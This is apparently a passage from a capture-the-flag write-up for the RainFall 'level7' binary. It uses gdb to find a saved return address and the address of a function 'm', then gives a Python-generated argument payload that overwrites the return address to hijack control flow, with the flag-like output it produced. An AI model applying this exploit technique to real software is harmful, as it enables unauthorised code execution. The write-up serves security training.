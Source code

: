```
   0xb7e454f2 <__libc_start_main+274>:	call   eax
   0xb7e454f4 <__libc_start_main+276>:	mov    eax,DWORD PTR [ebx+0x392c]
   0xb7e454fa <__libc_start_main+282>:	ror    eax,0x9
```

The return address is stored at address `0xBFFFF73C`. We know **where** we have to write to, but we do not know **what** we have to write yet. We want to jump to the `m` function, so we need his virtual address :

```
(gdb) info function ^m$
All functions matching regular expression "^m$":

Non-debugging symbols:
0x080484F4  m
```

This lead to the following exploit :

```
$(python -c 'print("a"*20 + "\x3C\xF7\xFF\xBF")') $(python -c 'print("\xF4\x84\x04\x08")')
```

Once main's `ret` instruction is executed, the control flow will be hijack to the `m` function :

```
level7@RainFall:~$ ./level7 $(python -c 'print("a"*20 + "\x3C\xF7\xFF\xBF")') $(python -c 'print("\xF4\x84\x04\x08")')
~~
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1738679527
Segmentation fault (core dumped)
```

Success !